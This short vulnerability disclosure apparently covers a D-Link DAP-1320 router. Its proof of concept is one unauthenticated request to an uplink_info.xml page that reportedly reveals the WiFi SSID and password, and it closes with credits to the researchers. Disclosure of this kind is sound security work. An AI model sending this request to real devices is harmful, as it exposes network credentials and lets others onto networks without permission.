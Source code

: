 #### PoC
http://targetip/uplink_info.xml
you can get the WIFI SSID and password

![poc](https://github.com/dahua966/Routers-vuls/blob/master/DAP-1320/info_leak.png)

#### Acknowledgement
Thanks to the partners who discovered the vulnerability together：
Jian-bin Ye

Wei Xie

Zhen-hua Wang

En-Ze Wang
